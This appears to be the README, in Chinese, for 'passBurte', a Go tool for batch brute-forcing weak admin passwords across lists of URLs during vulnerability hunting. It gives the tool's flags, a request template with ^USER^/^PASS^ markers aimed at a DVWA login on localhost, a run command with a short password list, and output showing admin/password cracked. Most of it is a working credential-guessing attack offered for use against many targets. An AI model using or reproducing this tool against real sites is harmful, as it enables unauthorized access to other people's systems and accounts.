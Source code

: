 # passBurte
小工具   一个用于通用漏洞挖掘时批量爆破弱口令的工具

在挖掘通用漏洞时,有些时候需要获取后台密码,我们可以导入url列表进行批量爆破

这是根据自己的需求写的小工具

# 使用方法
### 参数
    使用 -h 显示帮助信息
        -charset string      编码方式                                      
        -hash string         密码md5 或 base64,暂只支持md5/base64                                      
        -links string        爆破IP地址文件 (default "links.txt")          
        -passwd string       爆破密码,使用逗号隔开 (default "123456,admin")
        -perr string         密码错误提示，使用正则表达式                  
        -psuc string         密码正确提示，使用正则表达式                  
        -src string          数据包 (default "1.txt")                      
        -success             是否只显示成功的数据                          
        -time-sec float      设置请求间隔，单位秒                          
        -user string         爆破账号                                      
        -viewerr             是否显示报错信息,默认关闭                              
        -viewresp            是否显示响应数据,默认显示
    
### 使用
复制请求的http数据包到`1.txt`中,设置好账号和密码标记.

使用`^USER^`标记用户名,使用`^PASS^` 标记密码

    GET /vulnerabilities/brute/?username=^USER^&password=^PASS^&Login=Login HTTP/1.1
    Host: 127.0.0.1
    sec-ch-ua: "Chromium";v="105", "Not)A;Brand";v="8"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://127.0.0.1/vulnerabilities/brute/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_520556228c0113270c0c772027905838=1668054376; PHPSESSID=1t4lik619631cpu1gqddsac8lj; security=low
    Connection: close

复制请求地址到`links.txt`

    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    

设置好用于判断是否爆破成功的`perr`或`psuc`,以及是否进行密码的编码`hash`,响应包的编码`charset`等信息 即可开始批量爆破

perr 参数  在响应包中只有<font color=#FF000 >**密码错误**</font>才会有的关键字,可使用正则表达式

psuc 参数  在响应包中只有<font color=#FF000 >**密码正确**</font>才会有的关键字,可使用正则表达式

默认会显示响应消息,使用`-viewresp=false` 关闭

     go_build_passBurte.exe -user admin -passwd 123456,admin,admin123,password -psuc "Welcome to the password" -time-sec 1 -viewresp=false

输出结果:

    http 请求方法： GET
    错误提示：
    请求数据： username=^USER^&password=123456,admin,admin123,password&Login=Login
    http 请求头:
    Referer http://127.0.0.1/vulnerabilities/brute/
    sec-ch-ua "Chromium";v="105", "Not)A;Brand";v="8"
    User-Agent Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
    Sec-Fetch-User ?1
    Sec-Fetch-Dest document
    Cookie Hm_lvt_520556228c0113270c0c772027905838=1668054376; PHPSESSID=1t4lik619631cpu1gqddsac8lj; security=low
    sec-ch-ua-mobile ?0
    Accept text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site same-origin
    Accept-Encoding gzip, deflate
    Accept-Language zh-CN,zh;q=0.9
    Host 127.0.0.1
    sec-ch-ua-platform "Windows"
    Upgrade-Insecure-Requests 1
    Sec-Fetch-Mode navigate
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
